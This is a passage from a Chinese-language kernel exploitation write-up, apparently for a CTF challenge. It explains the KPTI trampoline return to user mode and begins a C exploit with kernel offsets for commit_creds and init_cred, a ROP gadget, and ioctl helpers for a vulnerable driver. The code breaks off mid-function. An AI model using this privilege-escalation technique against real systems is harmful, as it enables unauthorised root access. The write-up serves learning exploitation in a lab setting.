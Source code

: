 ```assembly
```

在实际操作时前面的一些栈操作都可以跳过，直接从 `mov rdi, rsp` 开始，这个函数大概可以总结为如下操作：

```assembly
mov      rdi, cr3
or       rdi, 0x1000
mov      cr3, rdi
pop      rax
pop      rdi
swapgs
iretq
```

因此我们只需要布置出如下栈布局即可**完美降落回用户态**：

```assembly
swapgs_restore_regs_and_return_to_usermode
0 // padding
0 // padding
user_shell_addr
user_cs
user_rflags
user_sp
user_ss
```

### exp

```assembly
#include <fcntl.h>
#include <stddef.h>

// #define COMMIT_CREDS_OFFSET (0xffffffffb84c8d40 - 0xffffffffb8400000)
#define COMMIT_CREDS_OFFSET (0xFFFFFFFF8109A33C - 0xffffffff81000000)
// #define PREPARE_KERNEL_CRED (0xffffffffb84c91d0 - 0xffffffffb8400000)

#define INIT_CRED_OFFSET (0xffffffffb4463300 - 0xffffffffb2e00000)
// #define INIT_CRED_OFFSET (0xffffffff82663300  - 0xffffffff81000000)
#define POP_RDI_RET_OFFSET (0xffffffff81089250 - 0xffffffff81000000)
#define SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE_OFFSET (0xffffffff81c00f30 - 0xffffffff81000000)

long dev_fd;


typedef struct op_chunk{
    size_t  idx;
    size_t  size;
    void    *buf;
} OP_CHUNK;


typedef struct alloc_chunk{
    size_t  size;
    void    *buf;
} ALLOC_CHUNK;


void readChunk(size_t idx, size_t size, void *buf){
    OP_CHUNK op = 
    {
        .idx = idx,
        .size = size,
        .buf = buf,
    };
    ioctl(dev_fd, 0x40, &op);
```